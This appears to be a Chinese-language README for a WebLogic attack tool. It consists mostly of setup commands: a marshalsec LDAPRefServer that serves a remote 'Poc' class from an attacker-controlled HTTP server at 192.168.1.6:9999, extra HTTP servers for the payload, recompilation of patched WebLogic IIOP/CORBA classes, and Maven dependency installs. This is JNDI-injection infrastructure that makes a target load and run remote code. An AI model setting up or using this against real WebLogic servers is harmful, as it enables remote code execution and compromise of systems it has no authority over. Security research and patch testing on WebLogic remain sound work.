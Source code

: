# weblogic-tools
weblogic-tools

启动 JNDI 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.1.6:9999/#Poc 1099
```

启动 HTTP 服务

```
python -m http.server 9999
```

修改代码

```
javac -cp wlfullclient.jar -source 1.5 -target 1.5 -sourcepath weblogic -d weblogic weblogic/iiop/IORManager.java

javac -cp wlfullclient.jar -source 1.5 -target 1.5 -sourcepath weblogic -d weblogic weblogic/corba/idl/RemoteDelegateImpl.java
```
启动 com.bea.javascript.jar
```
python -m http.server 8080
```

添加本地仓库依赖

wlfullclient_1.13.jar

```
mvn install:install-file -Dfile=wlfullclient_1.13.jar -DgroupId=com.oracle -DartifactId=weblogic -Dversion=1.13 -Dpackaging=jar

<dependency>
    <groupId>com.oracle</groupId>
    <artifactId>weblogic</artifactId>
    <version>1.13</version>
</dependency>

```

```
mvn install:install-file -Dfile=jsafeFIPS.jar -DgroupId=com.oracle -DartifactId=jsafeFIPS -Dversion=0.01 -Dpackaging=jar

<dependency>
    <groupId>com.oracle</groupId>
    <artifactId>jsafeFIPS</artifactId>
    <version>0.01</version>
</dependency>

```


## 更新日志

2020-04-04

- 取消入口为 ip + port 方式修改为 url 方式
- 修改部分实现
